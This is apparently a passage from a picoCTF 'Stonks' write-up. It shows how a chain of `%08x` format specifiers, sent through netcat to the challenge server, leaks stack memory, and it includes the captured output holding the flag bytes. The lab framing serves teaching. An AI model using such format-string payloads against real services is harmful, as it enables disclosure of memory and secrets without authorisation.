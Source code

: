 ![stack](./img/stack.PNG)



**<u>Payload</u>**

Usually, `scanf` is going to pause for you to type inputs. 

We can easily write another program that stores 0x05 (again, not ‘5’) to a file (let us call it `input.txt`), then we can run the vulnerable program with its input being redirected to `input.txt`; namely, we run `nc mercury.picoctf.net 59616 < input.txt`. This way, `scanf` will take its input from the file `input.txt`, instead of from the keyboard.

```
1
%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
```

We can then save the output as another text file `output.txt`. This makes it easier to analyze the output.

```
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
Buying stonks with token:
09bdf3d0.0804b000.080489c3.f7f8cd80.ffffffff.00000001.09bdd160.f7f9a110.f7f8cdc7.00000000.09bde180.00000001.09bdf3b0.09bdf3d0.6f636970.7b465443.306c5f49.345f7435.6d5f6c6c.306d5f79.5f79336e.38343136.34356562.ff83007d.f7fc7af8.f7f9a440.05b4f100.00000001.00000000.f7e29be9.f7f9b0c0.f7f8c5c0.f7f8c000
Portfolio as of Mon Jun 21 05:43:32 UTC 2021


1 shares of YV
10 shares of CQZ
2 shares of C
26 shares of A
9 shares of GVQV
87 shares of A
52 shares of MK
Goodbye!
```
